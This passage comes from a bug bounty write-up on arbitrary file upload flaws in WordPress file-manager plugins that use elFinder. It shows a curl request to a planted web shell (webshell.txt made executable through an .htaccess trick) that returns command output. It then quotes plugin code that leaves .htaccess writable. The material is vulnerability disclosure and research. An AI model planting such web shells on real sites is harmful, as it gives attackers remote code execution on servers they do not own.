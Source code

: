 ![](https://github.com/siunam321/CTF-Writeups/blob/main/Bug-Bounty/Wordfence/how-i-found-my-first-vulnerabilities-in-6-different-wordpress-plugins-part-2/images/Pasted%20image%2020250108175834.png)

> Note: Make sure the `.txt` file is in the same directory of the `.htaccess` file.

Oh, btw I added `;;` to ensure the MIME type is `text/plain`, just in case the administrator set the allowed MIME type to `text/plain`. This can be optional. ([See `text/plain` magic number](https://github.com/waviq/PHP/blob/master/Laravel-Orang1/public/filemanager/connectors/php/plugins/rsc/share/magic.mime#L538))

Finally, we should be able to execute arbitrary PHP code!

```shell
└> curl --get http://localhost/wp-content/webshell.txt --data 'cmd=id'
;;uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Nice! Let's move on to the next common misconfiguration/mistake in elFinder.

### Writable `.htaccess` in "attributes" Option - [Advanced File Manager](https://www.wordfence.com/threat-intel/vulnerabilities/wordpress-plugins/file-manager-advanced/advanced-file-manager-5212-5213-authenticated-subscriber-arbitrary-file-upload)

In elFinder options, the "[attributes](https://github.com/Studio-42/elFinder/wiki/Connector-configuration-options-2.1#attributes)" option allows the developers to set different files and folders' permission, such as setting a file to read-only.

In class `class_fma_connector` method `fma_local_file_system`, if setting `enable_htaccess` is set to `1`, it'll set `.htaccess` file to be readable and **writable**:

```php
class class_fma_connector
{
    [...]
    public function fma_local_file_system() {
        [...]
        if(isset($settings['enable_htaccess']) && !empty($settings['enable_htaccess']) && $settings['enable_htaccess'] == '1') {
            $hide_htaccess = array(
                'pattern' => '/.htaccess/',
                'read' => true,
                'write' => true,
                'hidden' => false,
                'locked' => false
            );	
        }
        [...]
        $opts = array(
                'roots' => array(
                    // Items volume
                    array(
```